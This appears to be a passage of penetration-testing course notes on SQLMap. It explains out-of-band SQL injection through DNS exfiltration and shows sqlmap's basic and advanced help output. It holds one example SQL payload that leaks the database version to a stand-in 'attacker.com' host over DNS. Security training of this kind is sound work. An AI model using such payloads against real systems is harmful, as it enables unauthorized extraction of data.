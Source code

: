 Example of `Out-of-Band SQL Injection`:

```sql
LOAD_FILE(CONCAT('\\\\',@@version,'.attacker.com\\README.txt'))
```

This is considered one of the **most advanced** types of SQLi, used in cases where all other types are either unsupported by the vulnerable web application or are too slow (e.g. time-based blind-SQLi). SQLMap supports out-of-band SQLi through "DNS Exfiltration", where requested queries are retrieved through DNS traffic.

By running the SQLMap on the DNS server for the domain under control (e.g. `.attacker.com`) SQLMap can perform the attack by *forcing the server to request non-existent subdomains* (e.g. `foo.attacker.com`), where `foo` would be the SQL response we want to receive. SQLMap can then collect these erroring DNS requests and collect the `foo` part, to form the entire SQL response.
# Getting Started with SQLMap

Upon starting SQLMap, the first stop for new users is usually the program's help message. To help new users, there are two levels of help message listing:

- `Basic Listing` shows only the basic options and switches, sufficient in most cases (switch `-h`)

```shell-session
trop3n@htb[/htb]$ sqlmap -h
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.4.9#stable}
|_ -| . ["]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

Usage: python3 sqlmap [options]

Options:
  -h, --help            Show basic help message and exit
  -hh                   Show advanced help message and exit
  --version             Show program's version number and exit
  -v VERBOSE            Verbosity level: 0-6 (default 1)

  Target:
    At least one of these options has to be provided to define the
    target(s)

    -u URL, --url=URL   Target URL (e.g. "http://www.site.com/vuln.php?id=1")
    -g GOOGLEDORK       Process Google dork results as target URLs
...SNIP...
```

- `Advanced Listing` shows all options and switches (switch `-hh`)

```shell-session
trop3n@htb[/htb]$ sqlmap -hh
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.4.9#stable}
|_ -| . [.]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

Usage: python3 sqlmap [options]

Options:
  -h, --help            Show basic help message and exit
  -hh                   Show advanced help message and exit
  --version             Show program's version number and exit
  -v VERBOSE            Verbosity level: 0-6 (default 1)

```
